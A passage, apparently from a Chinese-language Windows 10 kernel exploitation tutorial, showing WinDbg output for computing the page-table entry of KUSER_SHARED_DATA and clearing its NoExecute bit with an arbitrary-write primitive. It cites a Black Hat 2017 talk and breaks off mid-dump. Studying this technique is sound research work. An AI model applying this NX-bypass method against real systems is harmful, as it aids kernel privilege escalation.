 ```
fffff802`045add43 4803c1          add     rax,rcx
fffff802`045add46 c3              ret
fffff802`045add47 cc              int     3
fffff802`045add48 cc              int     3
```

在获取了PTE BASE之后可按照以上流程计算某地址的PTE，按照上面的代码计算FFFFF7800000000（KUSER_SHARED_DATA 的起始地址）的PTE为：((FFFFF78000000000 &gt;&gt; 9 ) &amp; 7FFFFFFFF8) + 0xFFFFEF8000000000 = 0xFFFFEFFBC0000000，对比如下输出可知，我们已经成功计算出了FFFFF7800000000对应的PTE。

```
0: kd&gt; !pte fffff78000000000
                                           VA fffff78000000000
PXE at FFFFEFF7FBFDFF78    PPE at FFFFEFF7FBFEF000    PDE at FFFFEFF7FDE00000    PTE at FFFFEFFBC0000000
contains 0000000001300063  contains 0000000001281063  contains 0000000001782063  contains 00000000013B2963
pfn 1300      ---DA--KWEV  pfn 1281      ---DA--KWEV  pfn 1782      ---DA--KWEV  pfn 13b2      -G-DA--KWEV
```

PDF链接：[https://www.blackhat.com/docs/us-17/wednesday/us-17-Schenk-Taking-Windows-10-Kernel-Exploitation-To-The-Next-Level%E2%80%93Leveraging-Write-What-Where-Vulnerabilities-In-Creators-Update.pdf](https://www.blackhat.com/docs/us-17/wednesday/us-17-Schenk-Taking-Windows-10-Kernel-Exploitation-To-The-Next-Level%E2%80%93Leveraging-Write-What-Where-Vulnerabilities-In-Creators-Update.pdf)

**去NX标志位：**

知道了目标地址的PTE（ 0xFFFFEFFBC0000000），就可以为其去掉NX标志，这样就可以在这个区域执行代码了，思路是利用任意地址写将PTE指向的地址的 NoExecute 标志位修改为0。

```
2: kd&gt; db ffffeffb`c0000006
ffffeffb`c0000006  00 80 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................

0: kd&gt; db FFFFEFFBC0000000+6    //修改后
ffffeffb`c0000006  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................

```

```
1: kd&gt; dt _MMPTE_HARDWARE FFFFEFFBC0000000
nt!_MMPTE_HARDWARE
   +0x000 Valid            : 0y1
   +0x000 Dirty1           : 0y1
   +0x000 Owner            : 0y0
   +0x000 WriteThrough     : 0y0
   +0x000 CacheDisable     : 0y0
   +0x000 Accessed         : 0y1
   +0x000 Dirty            : 0y1
   +0x000 LargePage        : 0y0
   +0x000 Global           : 0y1
   +0x000 CopyOnWrite      : 0y0
   +0x000 Unused           : 0y0
   +0x000 Write            : 0y1
   +0x000 PageFrameNumber  : 0y000000000000000000000001001110110010 (0x13b2)
   +0x000 ReservedForHardware : 0y0000
   +0x000 ReservedForSoftware : 0y0000
   +0x000 WsleAge          : 0y0000
   +0x000 WsleProtection   : 0y000
   +0x000 NoExecute        : 0y1

0: kd&gt; dt _MMPTE_HARDWARE FFFFEFFBC0000000    //修改后
nt!_MMPTE_HARDWARE
   +0x000 Valid            : 0y1
   +0x000 Dirty1           : 0y1
   +0x000 Owner            : 0y0
```